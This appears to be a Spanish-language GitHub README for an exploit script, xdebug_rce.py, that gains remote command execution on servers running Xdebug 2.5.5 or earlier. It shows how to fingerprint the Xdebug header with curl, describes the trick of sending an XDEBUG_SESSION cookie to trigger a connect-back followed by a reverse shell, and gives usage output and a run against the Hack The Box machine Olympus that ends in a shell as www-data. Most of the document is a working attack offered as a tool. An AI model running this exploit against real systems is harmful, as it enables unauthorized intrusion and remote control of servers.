# Xdebug-OS-Command-Execution

## Descripción
Exploit que permite la ejecución de código remoto debido al uso de la tecnología Xdebug de versión 2.5.5 y anteriores

```bash
❯ curl -I -X OPTIONS http://10.10.10.83/
HTTP/1.1 200 OK
Date: Sun, 19 Sep 2021 02:37:47 GMT
Server: Apache
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-Frame-Options: sameorigin
X-XSS-Protection: 1; mode=block
Xdebug: 2.5.5
Content-Length: 314
Content-Type: text/html; charset=UTF-8
```
El exploit manda un valor aleatorio de la cookie **XDEBUG_SESSION**, permitiendo que se entable una conexión hacia nuestra máquina a través del puerto 9000. Para facilitar la intrusión, se manda una reverse shell para tener una shell interactiva.

## Uso

```bash
❯ python3 xdebug_rce.py
usage: xdebug_rce.py [-h] --rhost RHOST --lhost LHOST [--lport LPORT]
xdebug_rce.py: error: the following arguments are required: --rhost, --lhost

❯ python3 xdebug_rce.py -h
usage: xdebug_rce.py [-h] --rhost RHOST --lhost LHOST [--lport LPORT]

Xdebug Command Execution

optional arguments:
  -h, --help     show this help message and exit
  --rhost RHOST  Remote host ip (Victim)
  --lhost LHOST  Local host ip (Attacker)
  --lport LPORT  Local port (default: 443)
```

Se ejecutó el exploit en la máquina **Olympus** de la plataforma Hack The Box.
```bash
❯ python3 xdebug_rce.py --rhost 10.10.10.83 --lhost 10.10.14.16
[+] Payload: Connection received from 10.10.10.83:41628 on port 9000
[+] Trying to bind to :: on port 443: Done
[+] Waiting for connections on :::443: Got connection from ::ffff:10.10.10.83 on port 59744
[+] Reverse shell: Established connection
[*] Switching to interactive mode
$ whoami
www-data
$ 
```
